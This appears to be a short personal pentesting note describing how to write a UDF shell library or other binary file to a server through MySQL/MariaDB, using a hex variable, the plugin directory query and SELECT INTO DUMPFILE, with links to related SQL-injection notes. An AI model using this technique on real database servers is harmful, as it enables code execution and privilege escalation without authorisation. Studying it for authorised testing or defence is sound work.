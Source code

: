 # mysql mariadb write UDF shell or any binary file with file permissions

- can use to write UDF shell
`set @shell=0x <hex here> ;`
paste in hex as a variable with no quotes.
prepare payload as plain hex with no newlines with ~/kb/bash-scripting/string-to-hex.sh
```SQL
select @@plugin_dir;
select binary @shell into dumpfile '/path/to/file/file.so';
```
- additional UDF exploit info: https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library

` zet/20221003151233/README.md `

# Related

- [20221003150987](/zet/20221003150987/README.md) mariadb mysql SQLi
- [20221003150983](/zet/20221003150983/README.md) mariadb mysql files
- [20221003151204](/zet/20221003151204/README.md) got access to databases - general SQL
- [20221013222124](/zet/20221013222124/README.md) concept hub for tricks and tips
- [20221014185545](/zet/20221014185545/README.md) kb file named kb/hacking/tricks/mysql-tricks.md
- [20221003151236](/zet/20221003151236/README.md) mysql mariadb
- ~/kb/hacking/tricks/mysql-tricks.md

Tags:

    #hacking #trick #mysql 

